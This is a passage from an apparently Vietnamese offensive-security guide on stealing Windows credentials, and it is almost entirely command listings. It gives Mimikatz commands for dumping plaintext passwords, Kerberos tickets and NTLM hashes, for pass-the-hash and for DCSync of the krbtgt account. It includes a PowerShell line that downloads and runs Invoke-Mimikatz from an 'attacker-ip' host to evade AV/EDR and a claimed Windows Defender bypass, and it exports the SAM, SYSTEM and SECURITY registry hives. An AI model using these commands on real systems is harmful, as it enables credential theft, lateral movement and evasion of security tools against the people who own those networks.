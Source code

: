 #### Các lệnh cơ bản của Mimikatz

```powershell
## Chạy Mimikatz với quyền debug (thường cần quyền Administrator)
privilege::debug

## Dump các mật khẩu từ memory (plain text nếu có thể)
sekurlsa::logonpasswords

## Dump các Kerberos tickets
sekurlsa::tickets /export

## Dump NTLM hash từ memory
sekurlsa::msv

## Pass-the-Hash
sekurlsa::pth /user:Administrator /domain:contoso.local /ntlm:HASH_HERE /run:powershell.exe

## Thực hiện DCSync để dump NTDS.dit
lsadump::dcsync /domain:contoso.local /user:krbtgt
```

#### Sử dụng Mimikatz thông qua PowerShell

```powershell
## Invoke-Mimikatz (nếu đã nạp script)
Invoke-Mimikatz -Command "privilege::debug sekurlsa::logonpasswords"

## Thực thi trong memory để tránh AV/EDR
IEX (New-Object Net.WebClient).DownloadString('http://attacker-ip/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds
```

#### Bypass Windows Defender

```powershell
## Obfuscated PowerShell command
$mimikatz = "powershell mimi"
$mimikatz = $mimikatz.replace('mimi', 'katz.exe')
Start-Process $mimikatz -ArgumentList '"privilege::debug" "sekurlsa::logonpasswords" "exit"'
```

### 4.4.2. SAM & SYSTEM Extraction

SAM (Security Account Manager) và SYSTEM là hai file registry chứa thông tin xác thực user trên máy Windows local.

#### Truy xuất SAM và SYSTEM từ Registry

```cmd
## Export các registry hives
reg save HKLM\SAM C:\temp\sam.save
reg save HKLM\SYSTEM C:\temp\system.save
reg save HKLM\SECURITY C:\temp\security.save
```
